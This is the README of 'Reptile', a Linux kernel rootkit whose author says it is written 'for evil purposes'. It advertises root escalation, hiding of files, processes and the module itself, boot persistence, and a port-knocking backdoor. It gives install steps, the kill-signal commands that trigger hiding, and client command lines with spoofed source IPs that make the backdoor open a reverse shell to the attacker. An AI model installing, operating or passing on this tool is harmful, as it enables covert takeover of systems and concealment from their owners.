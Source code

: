 # Reptile

<img src="https://imgur.com/nqujOlz.png">

Reptile is a LKM rootkit writen for evil purposes that runs on kernel 2.6.x/3.x/4.x. Probably is the best that you will find public on the Internet. 

If you are searching stuff only for study purposes, see the [demonstration codes](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration).

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP/TCP port-knocking backdoor
- Client to knock on heaven's door :D
   
## Roadmap

- Socket/Packet hiding
- Port-knocking backdoor in kernel land
 
## Install
```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
./install.sh remove
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

<img src="https://i.imgur.com/sfbpHQu.png">

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: `kill -51 0` and all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP/TCP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's (Back)Door
Written by: F0rb1dd3n

Usage: ./knock <args>

-x      Protocol (ICMP/UDP/TCP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l
TCP:  ./knock_on_heaven -x tcp  -s 192.168.0.2 -t 192.168.0.3 -p 666 -q 80 -d "F0rb1dd3n 192.168.0.4 4444" -l

```
<img src="https://i.imgur.com/zvFWuXT.png">

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/mncoppola/suterusu
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project. 

I will consider writing new features with contribution to my BTC Wallet: `1ASRMARFrpSanLHXCdNHD7K7pvr1fbK2fb`

<img src="https://imgur.com/RdYgb1T.gif">

